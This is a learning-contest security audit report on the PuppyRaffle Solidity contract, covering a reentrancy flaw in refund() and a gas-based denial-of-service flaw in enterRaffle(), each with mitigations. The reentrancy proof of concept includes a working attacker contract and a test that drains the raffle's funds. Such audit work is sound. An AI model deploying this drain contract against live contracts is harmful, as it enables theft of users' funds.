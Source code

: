 ![](logo.png) 
![](./img/puppy-raffle.png)

# Security Report for the PuppyRaffle CodeHawks FirstFlight Contest **learning*

**Source:** https://github.com/Cyfrin/2023-10-Puppy-Raffle

--------------------------------------------

### [H-1] Risk of Reentrancy in `PuppyRaffle::refund()` function

#### Description:
The `PuppyRaffle::refund()` can be re-entered because it does not follow the `CEI` (Checks-Effects-Interactions) pattern. Basically, interaction(s) with an external account is made before effects(state is updated).

<details>
<summary>Code</summary>

    ```solidity
        /// @param playerIndex the index of the player to refund. You can find it externally by calling `getActivePlayerIndex`
        /// @dev This function will allow there to be blank spots in the array
        function refund(uint256 playerIndex) public {
            address playerAddress = players[playerIndex];
            // checks 👇🏾
            require(playerAddress == msg.sender, "PuppyRaffle: Only the player can refund");
            require(playerAddress != address(0), "PuppyRaffle: Player already refunded, or is not active");

            // interaction 👇🏾
            payable(msg.sender).sendValue(entranceFee);

            // effects (state updates) 👇🏾
            players[playerIndex] = address(0);

            emit RaffleRefunded(playerAddress);
        }
    ```
</details>

#### Impact:
If the caller of the `PuppyRaffle::refund()` function is a contract with a `receive()` function, then the `PuppyRaffle::refund()` function can be re-entered before the state is updated.

#### Proof of Concept:

Create a `Hunter` contract 👇🏾:

<details>
<summary>Hunter</summary>

    ```solidity
        // SPDX-License-Identifier: MIT
        pragma solidity ^0.7.6;

        import {PuppyRaffle} from "./PuppyRaffle.sol";

        contract Hunter {
            PuppyRaffle puppy;
            address hunter = address(this);

            constructor(PuppyRaffle _puppy) {
                puppy = _puppy;
            }

            function poach() public payable {
                require(msg.value == puppy.entranceFee());

                // create a dynamic array, and push the Hunter's address
                address[] memory players = new address[](1);
                players[0] = hunter; // address(this) is the address of this contract, which is the Hunter contract

                // enter raffle
                puppy.enterRaffle{value: msg.value}(players);

                // find index of the Hunter's address
                uint256 hunterIndex = puppy.getActivePlayerIndex(hunter);

                // refund hunter
                puppy.refund(hunterIndex);
            }

            receive() external payable {
                // find index of the Hunter's address
                uint256 hunterIndex = puppy.getActivePlayerIndex(hunter);

                if (address(puppy).balance >= 1e18) {
                    puppy.refund(hunterIndex);
                }
            }
        }

    ```
</details>

Modify `PuppyRaffleTest.t.sol` test contract 👇🏾:
  
<details>
<summary>PuppyRaffleTest</summary>

````diff
    // SPDX-License-Identifier: MIT
    pragma solidity ^0.7.6;
    pragma experimental ABIEncoderV2;

    import {Test, console} from "forge-std/Test.sol";
    import {PuppyRaffle} from "../src/PuppyRaffle.sol";
+   import {Hunter} from "../src/Hunter.sol";

    contract PuppyRaffleTest is Test {
        PuppyRaffle puppyRaffle;
        uint256 entranceFee = 1e18;
        address playerOne = address(1);
        address playerTwo = address(2);
        address playerThree = address(3);
        address playerFour = address(4);
        address feeAddress = address(99);
        uint256 duration = 1 days;

+       Hunter hunter;

        function setUp() public {
            puppyRaffle = new PuppyRaffle(entranceFee, feeAddress, duration);
+           hunter = new Hunter(puppyRaffle);
        }
    }
````
</details>

Add the following test 👇🏾:

<details>
<summary>Code</summary>

    ```solidity
        function testHunterReentrancyAttackSuccessful() public {
            address[] memory players = new address[](5);
            players[0] = playerOne;
            players[1] = playerTwo;
            players[2] = playerThree;
            players[3] = playerFour;
            players[4] = address(hunter);
            puppyRaffle.enterRaffle{value: entranceFee * 5}(players);

            console.log(address(puppyRaffle).balance);
            assert(address(puppyRaffle).balance == 5e18);

            // attack logic
            uint256 hunterIndex = puppyRaffle.getActivePlayerIndex(address(hunter));
            // hunter attacks
            vm.prank(address(hunter));
            puppyRaffle.refund(hunterIndex);

            // assert PuppyRaffle's contract has been drained
            assert(address(puppyRaffle).balance == 0);
            // assert Hunter's balance has increased more than expected
            assert(address(hunter).balance == 5e18);
        }
    ```
</details>

#### Tools Used:

- Foundry
- Slither
- Manual Review
- Remix
- Chat GPT

#### Recommended Mitigation:

Re-arrange the `PuppyRaffle:refund()` fund to follow `CEI` pattern:

<details>
<summary>Code</summary>

    ```solidity
        /// @param playerIndex the index of the player to refund. You can find it externally by calling `getActivePlayerIndex`
        /// @dev This function will allow there to be blank spots in the array
        function refund(uint256 playerIndex) public {
            address playerAddress = players[playerIndex];
            require(playerAddress == msg.sender, "PuppyRaffle: Only the player can refund");
            require(playerAddress != address(0), "PuppyRaffle: Player already refunded, or is not active");

            // Update state before sending Ether
            players[playerIndex] = address(0);

            // Now transfer the refund
            payable(msg.sender).sendValue(entranceFee);

            emit RaffleRefunded(playerAddress);
        }
    ```
</details>

Also the `nonReentrant` modifier from [OpenZeppelin `ReentrancyGuard`](https://docs.openzeppelin.com/contracts/4.x/api/security#ReentrancyGuard) could be used.

-----------------------------------------------------------------

### [M-1] Possible DoS attack due to loop through `players` array to check for duplicates in `PuppyRaffle::enterRaffle()` function, thus significant increase in gas costs for future entrants

#### Description:       
The `PuppyRaffle::enterRaffle()` conducts a duplicate address check whenever a new address wants to join the raffle, by looping through the `players` array. This method means that gas costs for performing that transaction (entering the raffle) are significantly cheaper for players who enter at the start of the raffle, and significantly costlier for players who enter the raffle at later stages. Every new player, is an extra `address` the `PuppyRaffle::enterRaffle()` function has to loop through when conducting duplicate address check.

<details>
<summary>Code</summary>

    ```solidity
    // Check for duplicates
        for (uint256 i = 0; i < players.length - 1; i++) {
            for (uint256 j = i + 1; j < players.length; j++) {
                require(players[i] != players[j], "PuppyRaffle: Duplicate player");
            }
        } // @question could there be gas issues that could lead to a DOS attack because of this for loop?
    ```

</details>

#### Impact:
The gas costs for entering the raffle increases distrubingly as more players enter the raffle. This could cause a rush from players wanting to be one of the first in queue, as well as discourage prospective future players.   
An attacker could make the `PuppyRaffle::entrants`array so large that no other player is able to enter, thus guaranteeing themselves the win.

#### Proof of Concept:
If there are two sets of players, each set being 500 players large, below is the estimated gas costs:
- First 500 players: ~110091567 gas
- Next 500 players: ~405906812 gas
  
  That is a nearly 4x increase in gas costs for the next 500 players.

  <details>
  <summary>PoC</summary>
  Place the following test into the `PuppyRaffleTest.t.sol` test contract
    
    ```solidity
        function testDOS() public {
            // address[] memory players = new address[](1);
            // players[0] = playerOne;
            // puppyRaffle.enterRaffle{value: entranceFee}(players);
            // assertEq(puppyRaffle.players(0), playerOne);

            vm.txGasPrice(1); // set gas price to 1
            // Let's enter 500 players
            uint256 totalPlayers = 500;
            address[] memory players = new address[](totalPlayers);
            for (uint256 a = 0; a < totalPlayers; a++) {
                players[a] = address(a);
            }

            // gas calculations
            uint256 gasStart = gasleft();

            // enter raffle
            puppyRaffle.enterRaffle{value: entranceFee * totalPlayers}(players);

            // gas calculations
            uint256 gasEnd = gasleft();
            uint256 gasUsedForFirstFiveHundred = (gasStart - gasEnd) * tx.gasprice;
            console.log("The gas cost for the first 500 players is: ", gasUsedForFirstFiveHundred);

            // Let's enter extra 500 players
            // @note the higher the number of extra players you want to add, the more gas this test uses, and at a certain number(say 1000), the enterRaffle() function for the next set of players will fail with a out-of-gas error
            address[] memory playersExtra = new address[](totalPlayers);
            for (uint256 a = 0; a < totalPlayers; a++) {
                playersExtra[a] = address(a + totalPlayers);
                // @note -- the use of address(a + totalPlayers) is so that addresses start from 500+1 (501)
            }
            // gas calculations
            uint256 gasStartExtraPlayers = gasleft();

            // enter raffle for the extra 500 players
            puppyRaffle.enterRaffle{value: entranceFee * totalPlayers}(playersExtra);

            // gas calculations
            uint256 gasEndExtraPlayers = gasleft();
            uint256 gasUsedForNextFiveHundred = (gasStartExtraPlayers - gasEndExtraPlayers) * tx.gasprice;
            console.log("The gas cost for the extra 500 players is: ", gasUsedForNextFiveHundred);

            assert(gasUsedForFirstFiveHundred < gasUsedForNextFiveHundred);
        }
    ```
  </details>

#### Tools Used:
- Manual Review
- Foundry

#### Recommended Mitigation:
 Here are a few recommended mitigations:

- Consider using a maping to check for duplicates. This will allow for constant time look up of whether a user has already entered the raffle.
- Consider allowing duplicate addresses. Especially since users can make new wallet addressess regardles, so a duplicate check doesn't prevent the same peron from entering multiple times, omly the same wallet address.
- Alternatively, [OpenZeppelin's `EnumerableSet` Library](https://docs.openzeppelin.com/contracts/4.x/api/utils#EnumerableSet) could be used.